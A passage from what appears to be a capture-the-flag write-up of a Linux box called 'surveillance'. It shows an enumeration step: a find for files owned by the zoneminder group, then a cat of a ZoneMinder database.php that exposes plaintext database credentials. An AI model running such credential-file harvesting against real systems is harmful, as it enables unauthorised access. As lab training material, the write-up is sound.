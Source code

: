 
After successfully logging in, I identified additional users, including `zoneminder`, and obtained credentials from `/usr/share/zoneminder/www/api/app/Config/database.php`. 🔽 

```bash
matthew@surveillance:~$ find / -group zoneminder -type f 2>/dev/null
/usr/share/zoneminder/www/fonts/material-icons.woff2
/usr/share/zoneminder/www/fonts/fontawesome-webfont.woff
/usr/share/zoneminder/www/fonts/fontawesome-webfont.eot
....
...
/usr/share/zoneminder/www/api/lib/Cake/Config/config.php
/usr/share/zoneminder/www/api/app/Config/database.php
```
{: .nolineno}
I looked into this `database.php` file and got some credentials ->
```php
matthew@surveillance:~$ cat /usr/share/zoneminder/www/api/app/Config/database.php
<?php
[...]
class DATABASE_CONFIG {

	/*public $default = array(
		'datasource' => 'Database/Mysql',
		'persistent' => false,
		'login' => ZM_DB_USER,
		'password' => ZM_DB_PASS,
		'database' => ZM_DB_NAME,
		'ssl_ca' => ZM_DB_SSL_CA_CERT,
		'ssl_key' => ZM_DB_SSL_CLIENT_KEY,
		'ssl_cert' => ZM_DB_SSL_CLIENT_CERT,
		'prefix' => '',
		'encoding' => 'utf8',
	);*/

	public $test = array(
		'datasource' => 'Database/Mysql',
		'persistent' => false,
		'host' => 'localhost',
		'login' => 'zmuser',
		'password' => 'ZoneMinderPassword2023',
		'database' => 'zm',
		'prefix' => '',
		//'encoding' => 'utf8',
	);

	public function __construct() {
		if (strpos(ZM_DB_HOST, ':')):
			$array = explode(':', ZM_DB_HOST, 2);
                        if (ctype_digit($array[1])):
				$this->default['host'] = $array[0];
				$this->default['port'] = $array[1];
			else:
				$this->default['unix_socket'] = $array[1];
			endif;
		else:
			$this->default['host'] = ZM_DB_HOST;
		endif;
	}
}
matthew@surveillance:~$
```
{: .nolineno}
Now I need to search for `zoneminder` running version ->
![Image](Pasted%20image%2020240218220925.png)